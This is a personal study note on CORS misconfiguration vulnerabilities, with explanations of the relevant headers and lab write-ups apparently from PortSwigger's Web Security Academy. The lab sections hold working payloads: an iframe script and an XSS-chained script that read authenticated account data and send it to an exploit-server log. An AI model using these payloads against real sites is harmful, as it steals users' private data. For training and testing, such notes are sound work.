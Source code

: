 # CORS stands for Cross Origin Resource Sharing
- By default the web protocol is allowed to make request from 1 domain to another domain.
They can't read responses.

## Dynamic WebApps
- Dynamic WebApps need get response from different subdomain or payment gateway , analytics page, APi etc.
In order to read response from different domain the thirdparty domain should have
```bash
Access-Control-Allow-Origin: Webap.com
```
This header in place

- It can also fetch account related informations such as score, balance,privilege but to get access from authenticated page
It should have this header
```bash
Access-Control-Allow-Credentials: True
```

# Rules Of CORS protocol
- There are 3 methods supported by CORS
```bash
Access-Control-Allow-Origin: onlyonedomain.com
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: null
```
- Note if it is set to */wildcard The
```bash
Access-Control-Allow-Credentials: True
```
- It will not work for security reasobs

# Where is the vulnerbility
- Since only single domain is allowd to be in Access-Control-Allow-Origin Header. The modern web app uses dynamic generation of hostnames to put in headers in each request.
- So it uses regex for allowing multiple domains to access resources.

# Bugs to check
- add origin as null
- use suffix or prifix of allowd domain to check
- try other ways to bypass regex

# LAB
### CORS Minconfiguration With No Protection
```bash
/accountDetail gives a json that contains account info
tried Origin: example.com and it worked

Now the javascript for exploit server
```
### CORS vulnerability with trusted null origin
```bash
Added null in input got the header as null

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

### Site trusts all subdomains
```bash
In that case find a reflected XSS
We will request for resource using XSS then force the subdomain to send data to us

in our server 

<script>
    document.location="https://stock.0a3b00eb035dfb9280751cc1000100e2.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a3b00eb035dfb9280751cc1000100e2.web-security-academy.net',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a93007e039dfb4c80861bcc01070025.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>


Now what will happend is we will trigegr xss in subdomain and force it to send data back to us
```

```

### Resources
- [Report 1](https://hackerone.com/reports/426165)
- [Report 2](https://hackerone.com/reports/470298)
- [Writeup](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)
